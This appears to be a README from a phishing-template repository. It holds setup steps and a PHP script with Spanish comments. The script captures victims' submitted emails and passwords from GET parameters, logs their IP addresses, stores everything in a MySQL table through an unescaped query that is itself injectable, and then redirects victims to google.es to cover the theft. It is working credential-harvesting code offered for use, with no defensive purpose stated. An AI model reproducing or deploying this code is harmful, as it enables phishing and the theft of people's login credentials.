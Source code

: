 Phishing templates.

Db connection:
Create a database, modify the following text in php and add it to the files.

PHP connection:

<?php
$servername = "localhost";
$database = "X";
$username = "X";
$password = "X";
// creamos conexion
  $conn = mysqli_connect($servername, $username, $password, $database);
//si estan todos los campos rellenos los insertamos en la base de datos
  if( isset($_GET["email"]) && isset($_GET["password"]) && isset($_SERVER["REQUEST_METHOD"]) ){
$pass = $_GET["password"];
$mail = $_GET["email"];
 if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
        $ipAddress = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
        $ipAddress = $_SERVER['HTTP_X_FORWARDED_FOR'];
    } else {
        $ipAddress = $_SERVER['REMOTE_ADDR'];
    }

  $insert = "insert into datos values('$mail', '$pass', '(WEB)', '$ipAddress')";
//realizamos consulta para insertar los datos
  $return = mysqli_query( $conn, $insert);
  print_r( ( $return));
 // echo " : Registro correcto";
        header("Location: https://www.google.es");
        exit();
}
mysqli_close( $conn);
?>
